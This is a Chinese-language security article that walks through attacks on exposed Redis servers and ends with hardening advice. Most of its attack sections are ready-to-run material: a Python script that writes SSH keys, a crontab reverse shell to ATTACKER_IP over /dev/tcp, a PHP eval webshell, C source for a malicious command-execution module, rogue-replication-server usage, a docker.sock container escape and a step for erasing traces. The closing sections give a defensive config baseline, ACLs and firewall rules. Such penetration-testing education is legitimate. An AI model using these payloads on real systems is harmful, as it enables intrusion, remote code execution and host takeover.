

## 0x00 前言

Redis是一个开源的高性能键值存储数据库，被广泛应用于缓存、消息队列、实时分析等场景。然而其默认配置的安全缺陷使其长期位列互联网暴露服务风险榜单前列。本文系统梳理Redis攻击面，从基础未授权访问到进阶模块加载RCE，逐一拆解攻击原理与利用手法，并给出防御建议。

**免责声明**：本文所述技术仅供安全研究与授权测试使用，严禁用于非法入侵。因恶意使用本文信息导致的任何法律后果，作者概不负责。

---

## 0x01 Redis未授权访问

### 漏洞成因

Redis默认绑定`127.0.0.1:6379`，但许多生产环境中运维人员为方便远程调用，将`bind`设为`0.0.0.0`、注释`requirepass`、关闭`protected-mode`且未设防火墙，导致公网可直接连接。

### 探测与连接

```bash
nmap -p 6379 --script redis-info 192.168.1.0/24
redis-cli -h <target_ip> -p 6379
# 连接成功后收集信息
> INFO server
> CONFIG GET *
> CLIENT LIST
```

### 手工写文件的核心条件

`CONFIG SET dir`和`CONFIG SET dbfilename`允许运行时修改持久化目录与文件名。执行`SAVE`后Redis将内存数据以RDB格式写入指定路径。尽管RDB含二进制垃圾数据，但`authorized_keys`或crontab等对格式容错较强的文件仍能解析其中的有效行。



---

## 0x02 SSH公钥写入

### 原理

生成SSH密钥对，将公钥通过Redis写入目标`/root/.ssh/authorized_keys`，实现免密SSH登录。需Redis以root运行且`.ssh`目录已存在。

### 利用步骤

```bash
ssh-keygen -t rsa -b 4096 -f ./redis_rsa -N ""
# 前后加换行绕开RDB二进制污染
(echo -ne "\n\n"; cat ./redis_rsa.pub; echo -ne "\n\n") | redis-cli -h <target> -x set sshkey
redis-cli -h <target> CONFIG SET dir /root/.ssh/
redis-cli -h <target> CONFIG SET dbfilename authorized_keys
redis-cli -h <target> SAVE
ssh -i ./redis_rsa root@<target>
```

### Python脚本示例

```python
import redis, sys
def exploit(host, pub="./redis_rsa.pub", port=6379):
    with open(pub,"r") as f: payload = f"\n\n{f.read().strip()}\n\n"
    r = redis.Redis(host=host, port=port, socket_connect_timeout=5)
    r.set("s", payload); r.config_set("dir","/root/.ssh/")
    r.config_set("dbfilename","authorized_keys"); r.save()
    print(f"[+] Written: {host}:/root/.ssh/authorized_keys")
if __name__ == "__main__": exploit(sys.argv[1])
```

---

## 0x03 Crontab反弹Shell

### 原理

将反弹Shell命令写入crontab路径，利用cron周期性执行获取Shell。

```bash
PAYLOAD="\n\n*/1 * * * * /bin/bash -c 'exec bash -i &>/dev/tcp/ATTACKER_IP/4444 <&1'\n\n"
echo -e "$PAYLOAD" | redis-cli -h <target> -x set cronshell
# CentOS: /var/spool/cron/root
# Debian/Ubuntu: /var/spool/cron/crontabs/root
redis-cli -h <target> CONFIG SET dir /var/spool/cron/
redis-cli -h <target> CONFIG SET dbfilename root
redis-cli -h <target> SAVE
```

| 发行版 | 路径 |
|--------|------|
| CentOS / RHEL | `/var/spool/cron/root` |
| Debian / Ubuntu / Alpine | `/var/spool/cron/crontabs/root` |

RDB文件头可能导致cron报错但有效行仍被执行，写入后最多等待1分钟触发，需cron服务运行中。

---

## 0x04 Webshell写入

### 原理

利用`CONFIG SET dir`指向web目录，`dbfilename`设为`.php`文件名，写入webshell后通过浏览器触发。

```bash
PAYLOAD="\n\n<?php @eval(\$_REQUEST['cmd']); ?>\n\n"
echo -ne "$PAYLOAD" | redis-cli -h <target> -x set webshell
redis-cli -h <target> CONFIG SET dir /var/www/html/
redis-cli -h <target> CONFIG SET dbfilename shell.php
redis-cli -h <target> SAVE
curl http://<target>/shell.php?cmd=system('id');
```

常见Web目录：`/var/www/html/` `/var/www/` `/usr/local/nginx/html/` `/home/wwwroot/` `/opt/lampp/htdocs/` `C:\inetpub\wwwroot\` `C:\xampp\htdocs\`

RDB头尾二进制数据会污染PHP标签，前后加换行和注释符可提高成功率。更优雅的方式是通过主从复制直接投递纯净payload。

---

## 0x05 主从复制RCE（Redis Rogue Server）

### 原理

Redis 4.x/5.x支持主从复制。攻击者搭建恶意主节点，通过`SLAVEOF`使目标变为从节点触发全量同步，在同步过程中将恶意`.so`模块伪装在RDB数据流中发送，目标落地后通过`MODULE LOAD`加载实现RCE。

攻击流程：`SLAVEOF attacker_ip 6379` → PSYNC/FULLRESYNC同步请求 → 攻击机返回伪装成RDB数据的恶意.so → 模块写入`/tmp/` → `MODULE LOAD /tmp/<module>.so`加载 → 注册自定义命令实现任意命令执行。

### 利用步骤

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
cd redis-rogue-server && make
./redis-rogue-server -rhost <target_ip> -rport 6379 -lhost <attacker_ip>
```

加载成功后进入交互式Shell，可直接执行`id`、`whoami`等系统命令。工具还包括Ridter的Python版和RedisModules-ExecuteCommand等。

### 检测命令

```bash
redis-cli -h <target> INFO replication   # 检查主从复制状态
redis-cli -h <target> MODULE LIST        # 检查已加载模块
```

---

## 0x06 Module .so加载

### 原理

Redis 4.0起支持Module扩展。攻击者编译恶意`.so`共享库，上传后`MODULE LOAD`加载，`RedisModule_OnLoad`自动执行实现命令执行。

### 恶意模块核心代码（evil_module.c）

```c
#include "redismodule.h"
#include <stdlib.h>
#include <string.h>
int EvilCommand(RedisModuleCtx *ctx, RedisModuleString **argv, int argc) {
    if (argc < 2) return RedisModule_WrongArity(ctx);
    size_t len;
    const char *cmd = RedisModule_StringPtrLen(argv[1], &len);
    FILE *fp = popen(cmd, "r");
    if (!fp) return RedisModule_ReplyWithError(ctx, "ERR");
    char buf[4096];
    while (fgets(buf, sizeof(buf), fp))
        RedisModule_ReplyWithStringBuffer(ctx, buf, strlen(buf));
    pclose(fp);
    return REDISMODULE_OK;
}
int RedisModule_OnLoad(RedisModuleCtx *ctx, RedisModuleString **argv, int argc) {
    if (RedisModule_Init(ctx, "evil", 1, REDISMODULE_APIVER_1) == REDISMODULE_ERR)
        return REDISMODULE_ERR;
    RedisModule_CreateCommand(ctx, "evil.exec", EvilCommand, "readonly", 1, 1, 1);
    return REDISMODULE_OK;
}
```

### 编译与加载

```bash
git clone https://github.com/redis/redis.git
cd redis && gcc -shared -fPIC -I./src -o /tmp/evil.so evil_module.c
redis-cli -h <target> MODULE LOAD /tmp/evil.so
redis-cli -h <target> evil.exec "id"
redis-cli -h <target> MODULE UNLOAD evil     # 清理痕迹
```

上传.so文件的方式包括：主从复制传输、配合`CONFIG SET`直接写入、已有Webshell上传等。

---

## 0x07 Redis 6 ACL 安全机制

### ACL概述

Redis 6.0引入ACL提供细粒度权限控制，是`requirepass`的全面升级。

```bash
ACL SETUSER default off
ACL SETUSER readonly on >StrongP@ss ~* &* -@all +@read +@connection
ACL SETUSER admin on >Adm1nP@ss ~* &* +@all
ACL SETUSER app on >Pass789 ~cache:* &* +@all -@dangerous -CONFIG -MODULE
```

| 类别 | 语法 | 说明 |
|------|------|------|
| 键权限 | `~<pattern>` | 可访问的键名模式 |
| 通道权限 | `&<pattern>` | 可订阅的Pub/Sub通道 |
| 命令类别 | `+@all` `-@dangerous` | 按类别批量控制 |
| 具体命令 | `+SET` `-CONFIG` | 精细到单个命令 |

### 绕过思路

用户保留`+@all`则认证后等同于未授权；`CONFIG`未禁用仍可写文件；`MODULE`开放可加载恶意`.so`；`aclfile`加载失败时回退为无保护状态。

### 审计命令

```bash
redis-cli -h <target> -a <password> ACL LIST
redis-cli -h <target> -a <password> ACL GETUSER default
```

---

## 0x08 Docker环境下的Redis攻击面

容器内Redis常以root运行但作用于UnionFS：写入`/root/.ssh/`或crontab仅影响容器内部。逃逸到宿主机需额外条件。

```
攻击者  ──未授权Redis──▶  Docker容器
  Redis(root)在容器内: SSH写入/Webshell/主从复制RCE/模块加载RCE
  ──特权/挂载逃逸──▶  宿主机
    • Docker Socket挂载 → docker run提权
    • /proc挂载 → 进程注入逃逸
    • 特权模式 → 内核/设备挂载逃逸
    • 敏感目录挂载 → 写SSH Key/crontab
```

### Docker Socket逃逸

```bash
ls -la /var/run/docker.sock 2>/dev/null
docker -H unix:///var/run/docker.sock ps
docker -H unix:///var/run/docker.sock run -it --rm -v /:/host alpine chroot /host
```

容器逃逸条件：`--privileged`特权模式、`--cap-add=SYS_ADMIN`配合内核漏洞、`--pid=host`进程命名空间共享、挂载`/var/run/docker.sock`或`/proc`。

---

## 0x09 综合防御建议

### redis.conf 安全基线

```conf
bind 10.0.0.5
protected-mode yes
requirepass "YourStronG_P@ssw0rd_H3r3!"
rename-command CONFIG ""
rename-command MODULE ""
rename-command SLAVEOF ""
rename-command REPLICAOF ""
rename-command DEBUG ""
rename-command SHUTDOWN ""
rename-command BGSAVE ""
rename-command SAVE ""
rename-command FLUSHALL ""
rename-command FLUSHDB ""
aclfile /etc/redis/users.acl
```

### ACL文件示例

```
user default off
user readonly on >StrongR3adOnly ~* &* +@read +@connection -@dangerous
user admin on >C0mpl3xAdm1nP@ss ~* &* +@all
user app on >AppUs3rP@ss ~app:* &* +@all -CONFIG -MODULE -SLAVEOF
```

### 网络层防御

```bash
iptables -A INPUT -p tcp --dport 6379 -s 10.0.0.0/8 -j ACCEPT
iptables -A INPUT -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT
iptables -A INPUT -p tcp --dport 6379 -j DROP
# 云环境使用安全组，仅放行受信IP
```

### 运行时检查清单

```bash
redis-cli CONFIG GET bind && redis-cli CONFIG GET requirepass
redis-cli CONFIG GET protected-mode && redis-cli CONFIG GET rename-command
redis-cli ACL LIST && redis-cli INFO replication && redis-cli MODULE LIST
nmap -p 6379 --script redis-info <public_ip_range>
```

---

## 0x0A 总结

| 层次 | 攻击方式 | 前置条件 | 危害 |
|------|---------|---------|------|
| L1 | 信息泄漏 | 未授权访问 | 低 |
| L2 | SSH公钥写入 | 未授权 + root + .ssh目录 | 高 |
| L3 | Crontab反弹Shell | 未授权 + root + cron运行 | 高 |
| L4 | Webshell写入 | 未授权 + 已知web路径 | 高 |
| L5 | 主从复制RCE | 未授权 + Redis 4/5 + 出网 | 严重 |
| L6 | 模块加载RCE | 未授权 + MODULE未禁用 + 可写目录 | 严重 |
| L7 | 容器逃逸 | 容器RCE + 特权/挂载/Socket | 严重 |

安全运维的核心在于**默认拒绝而非默认允许**。即使"内部"使用的Redis也应配置认证、绑定内网、禁用危险命令、部署网络ACL。Redis 6的ACL为权限治理提供了成熟的方案，建议尽快升级启用。攻击面始终动态演化——Redis模块漏洞、Lua沙箱绕过等新利用方式持续出现，保持关注官方安全公告是长期功课。

---

> **Author**: Security Researcher
> **References**: Redis官方文档、n0b0dyCN/redis-rogue-server、多种开源利用工具
